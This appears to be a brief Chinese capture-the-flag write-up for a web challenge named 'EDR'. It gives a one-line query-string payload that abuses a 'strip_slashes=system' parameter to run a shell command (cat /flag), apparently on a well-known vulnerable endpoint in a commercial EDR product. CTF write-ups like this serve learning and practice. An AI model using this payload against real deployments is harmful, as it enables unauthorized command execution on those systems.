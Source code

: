 

## Web

### EDR

深信服载入史册

直接payload打

![image-20210205134031474](cnhonghe2021公测赛/image-20210205134031474.png)

Payload:

```
./?strip_slashes=system&host=cat /flag
```

这题去年有过，是作为线下赛的题目，当时没外网，只能硬审，或者...~~记得payload~~，毕竟太有名了...
